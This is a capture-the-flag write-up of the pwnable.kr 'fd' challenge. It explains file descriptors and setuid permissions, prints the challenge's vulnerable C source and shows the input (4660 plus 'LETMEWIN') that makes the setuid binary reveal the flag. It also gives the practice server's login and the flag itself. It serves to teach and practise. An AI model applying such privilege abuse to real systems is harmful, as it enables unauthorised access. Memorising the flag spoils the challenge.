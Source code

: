 ```yaml
---
title: (pwnable.kr) fd
date: 2024-02-02
tags:
  - ctf/pwnablekr
  - file-descriptor
  - c
---
```


# (pwnable.kr) fd

---

**Contents:**

1. [[#Introduction]]
2. [[#Pre-requisites]]
3. [[#Methodology]]
   1. [[#Enumeration]]
   2. [[#Exploitation]]
4. [[#Documentation of Flags/Proofs]]
5. [[#Conclusion]]
6. [[#Acknowledgments and References]]

---

# Introduction

---

The goal of this Capture The Flag is to print out a `flag` file with no `read` permissions. Basic understanding of C language can solve this challenge within less than a minute. A compiled binary file and its source code is provided.

# Pre-requisites

---

### File Descriptors

POSIX API standards have these following:

| Integer Value | Name            | <unistd.h> symbolic constant | <stdio.h> file stream |
| ------------- | --------------- | ---------------------------- | --------------------- |
| 0             | Standard input  | STDIN_FILENO                 | stdin                 |
| 1             | Standard output | STDOUT_FILENO                | stdout                |
| 2             | Standard error  | STDERR_FILENO                | stderr                |

### atoi()

See `man atoi`.

### Linux File Permissions

```sh
.rw-r--r--
drw-r--r--
lrwxrwxrwx
```

Above is an example file permissions. It's grouped into three parts: _user owner_, _group owner_, and _others_. There are 10 flags. The first flag is the file type (`.` for a file, `d` for a directory, and `l` for symlinks). The remaining ones are permission settings.

Permissions

- `r`: read
- `w`: write
- `x`: execute
- `s`: setuid

If the permission settings flag is set to `-`, then the specific owner does not have the permissions to read, write, and/or execute.

### Connecting with SSH

To play the game, connect to `ssh fd@pwnable.kr -p2222` with `guest` as the password.

# Methodology

---

## Enumeration

Once connected to the SSH session, check the current working directory, the user logged in, and the files.

```sh
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 116 root   root 4096 Oct 30 05:25 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache


fd@pwnable:~$ pwd
/home/fd

fd@pwnable:~$ id
uid=1002(fd) gid=1002(fd) groups=1002(fd)
```

Found the `flag` file. We can try outputting it.

```sh
fd@pwnable:~$ cat flag
cat: flag: Permission denied
fd@pwnable:~$
```

No permissions to read. The `flag` is owned by `fd_pwn`. Notice that file `fd` has execute permissions for the group `fd`. We can check its file type with `file`.

```sh
fd@pwnable:~$ file fd
fd: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c5ecc1690866b3bb085d59e87aad26a1e386aaeb, not stripped
```

It's a compiled binary executable. Notice that this file has `s` attribute being set. Which means when this binary gets executed, it will run under the user owner, `fd_pwn`.

I assume that `fd.c` is the source code of `fd` binary.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

## Exploitation

Run `fd` file.

```sh
fd@pwnable:~$ ./fd
pass argv[1] a number

fd@pwnable:~$ ./fd aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
learn about Linux file IO
```

Let's go back to the source code `fd.c`. The first thing that goes to my mind is the string comparison check `strcmp()` against `LETMEWIN`. I assumed that typing `LETMEWIN` as the argument would work but it did not.

```sh
fd@pwnable:~$ ./fd LETMEWIN
learn about Linux file IO
```

An argument must be passed and converted to an integer. After some trial and error, the `atoi()` function converts the argument into value `0`. The hexadecimal value `0x1234` is equivalent to `4660` in decimal format. If the converted integer from `atoi()` is 0, then that must mean `fd` variable is `-4660`. Thus, I tried using `4660` as the argument, not `0x1234`, and this allowed as to execute the `read()` function which normally fails if the file descriptor is not equal to `0`, `1`, or `2`.

At this point, it's as easy as typing the password `LETMEWIN`.

```sh
fd@pwnable:~$ echo "LETMEWIN" | ./fd 4660
good job :)
mommy! I think I know what a file descriptor is!!
```

# Documentation of Flags/Proofs

---

Hence, our flag is `mommy! I think I know what a file descriptor is!!`.

# Conclusion

---

This took me about 12 hours to solve and I expected I would do some binary exploitation like stack smashing or buffer overflows but it seems like that's not needed. I misunderstood the purpose of `strcmp()` and I tried doing buffer overflows instead.

```sh
fd@pwnable:~$ ./fd 4660
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat flag
learn about Linux file IO
fd@pwnable:~$ cat flag
cat: flag: Permission denied
```

Well, yeah, of course it would not work lmao. It took me another half an hour or more to realize that `strcmp()` checks if the input string is equal... Just Wow.

Therefore, to easily win this challenge, you can do the following:

```sh
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

And get the flag ;)

# Acknowledgments and References

---

- https://en.wikipedia.org/wiki/File_descriptor
- manual pages
